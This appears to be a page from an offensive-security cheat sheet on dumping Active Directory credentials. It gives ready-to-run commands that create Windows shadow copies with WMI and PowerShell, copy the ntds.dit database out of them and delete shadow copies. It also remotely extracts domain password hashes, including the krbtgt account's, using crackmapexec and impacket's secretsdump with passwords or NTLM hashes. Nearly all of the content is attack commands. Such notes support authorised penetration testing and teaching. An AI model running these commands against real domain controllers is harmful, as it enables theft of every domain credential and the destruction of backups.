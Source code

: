 ###### WMI win32_shadowcopy

The `Windows Management Instrumentation (WMI)` class `win32_shadowcopy` can be
used to create a `shadow copy` as well:

```
# Either commands create the shadow copy volume.
wmic shadowcopy call create Volume='C:\'
powershell.exe -Command (gwmi -List win32_shadowcopy).Create('C:\', 'ClientAccessible')

# Lists the shadow copy volume configured in order to retrieve the created shadow copy ID.
wmic shadowcopy
Get-WmiObject Win32_ShadowCopy | ForEach-Object { $_ }

# Copies the ntds.dit file directly from the volume shadow copy.
cmd.exe /c "copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\NTDS\ntds.dit <EXPORTED_NTDS_DIT>"

# Alternatively creates a symbolic link to the volume shadow copy, allowing the copy to be browsed in Windows Explorer.
# The trainling "\" SHOULD NOT be omitted.
mklink /d <DIRECTORY_FOR_MOUNTING_PATH> \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\

# Will delete all instances of shadow copy volumes.
wmic delete

# Deletes the specified shadow copy volume.
Get-WmiObject Win32_ShadowCopy | ForEach-Object { If ($_.ID -like "<GUID>") { $_.Delete() }}

# Alternatively will prompt for confirmation before deleting a shadow copy volume but require to be started through an interactive command prompt.
wmic
wmic:root\cli> shadowcopy delete
```

### Remotely over the network

##### Remote Volume Shadow Copy

The `vssadmin` utility can be executed remotely, over the `SMB`, `WMI` or
`DCOM` protocols, in order to export the `ntds.dit`. As implemented in
`impacket`'s `secretsdump.py` Python script, the `ntds.dit` database file is
exported in a temporary folder and parsed remotely. `CrackMapExec` wraps around
the methods from `secretsdump.py`.

```
# Wrap around secretsdump.py
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
crackmapexec smb <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds vss
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
crackmapexec <DC_HOSTNAME | DC_IP> -d '<DOMAIN>' -u '<USERNAME>' -H '<NTLM_HASH>' --ntds vss

# The -dc-ip option may not be properly taken into account. If so, the domain name can be associated to an IP in the /etc/hosts (Linux) or C:\Windows\System32\drivers\etc\hosts (Windows) file.
# Additionally, a Domain Controller IP can be specified in the target string in place of the domain name.
# -exec-method: smbexec, wmiexec, or mmcexec (over the DCOM protocol).
# Static stand-alone secretsdump binaries for Windows and Linux x64 available at: https://github.com/ropnop/impacket_static_binaries
secretsdump.py -dc-ip <DC_IP> -use-vss -just-dc-user "<krbtgt | USERNAME>" "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -dc-ip <DC_IP> -use-vss "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
secretsdump.py -use-vss [-exec <EXEC_METHOD>] "<DOMAIN>/<USERNAME>:<PASSWORD>@<DOMAIN | DC_IP>"
```
